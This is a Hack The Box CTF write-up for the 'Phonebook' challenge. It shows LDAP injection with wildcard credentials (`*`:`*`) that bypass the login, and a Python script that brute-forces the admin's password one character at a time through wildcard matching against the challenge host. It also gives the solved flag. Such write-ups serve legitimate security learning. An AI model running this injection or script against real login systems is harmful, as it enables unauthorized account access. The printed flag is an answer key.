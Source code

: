 # [Phonebook](https://app.hackthebox.com/challenges/phonebook)

## Analysis

detected LDAP syntax after try enter special characters of LDAP:
![detect-ldap.png](./img/challenge-2-detect-ldap.png)

## Solutions

guess the LDAP code in the server-side:

```ldap
(&(username=...)(password=...))
```

Login with credentials `*`:`*`, try using the search function, depending on the pre-login message in the login page, we can know that reese is the admin:

![pre-login.png](./img/challenge-2-pre-login.png)

Find reese account and login:

![search-reese.png](./img/challenge-2-search-reese.png)

But I don't see anything, try to login to another account but can't login to any other account, only Reese account.

Try to login to reese account with password of HTB flag pattern then:
![password-flag-pattern.png](./img/challenge-2-password-flag-pattern.png)

Find flag:

Solution 1, use burpsuite's intruder to find every character of the password:
![burp-intruder.png](./img/challenge-2-burp-intruder.png)
however this method is too brrrrr.

so I tried to write a python script to solve this challenge:

```python
import requests, string

flag = "HTB{"

allchar = string.printable.replace('*', '')

while True:
    check = False
    for c in allchar:
        resp = requests.post("http://178.62.95.229:32078/login", data={"username":"reese", "password":flag + c + "*}"}, allow_redirects=False)
        if resp.status_code == 302 and '/login?message=Authentication%20failed' not in str(resp.headers):
            flag += c
            check = True
            break
    print(flag)
    if not check:
        print('Flag: ' + flag + '}')
        break
```

![python.png](./img/challenge-2-python.png)
Flag: `HTB{d1rectory_h4xx0r_is_k00l}`

## References

<https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/>
